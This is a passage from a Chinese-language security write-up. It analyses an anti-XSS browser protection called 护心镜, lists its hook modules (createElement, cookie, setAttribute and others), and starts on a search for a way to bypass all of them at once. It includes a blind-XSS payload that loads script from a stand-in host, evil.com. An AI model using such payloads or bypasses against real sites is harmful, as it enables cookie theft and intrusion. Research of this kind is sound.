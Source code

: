
举个例子：当一个 XSSer 对某后台进行盲打时，嵌入了一串代码：

    
    
    #!html
    <script src=//evil.com/evil.js></script>
    

当管理员登录后台时候触发了这串代码，由于加载了“evil.com”这个未知域名的 js 脚本，护心镜弹出危险警告，在用户确认后对脚本进行阻拦。

从之后的代码分析中了解，HOOK 函数实现了以下功能：

模块 功能

Hook_CreateElement

对 CreateElement 方法进行 Hook

Hook_Image

对Image对象产生的实例进行 Setter 和 Getter 的 Hook

Hook_Source

对页面 DOM 进行监控，对新生成的标签进行来源检测

Hook_Attribute

对元素的 setAttribute 方法进行 Hook

Hook_Element

对元素的 Setter 和 Getter 进行 Hook

Hook_Cookie

对 Cookie 的读写接口进行了 Hook

Hook_Xsstester

对常见的 alert、prompt 方法等进行 Hook

Hook_CSRFWebshell

对通过 CSRF 上传 Webshell 进行拦截

Send

对护心镜接口发送报告

# 0x02 快速寻找通杀之法

* * *

扫一遍代码，发现每个模块都有相应的弱点，但在那之前，

每个人都想知道快速通杀所有模块的方法，那么如何快速找到通杀方法？

最好的方式是看看他们有什么共通点：

（由于只有4个模块涉及拦截，那么就看看他们是怎么实现的）

    
    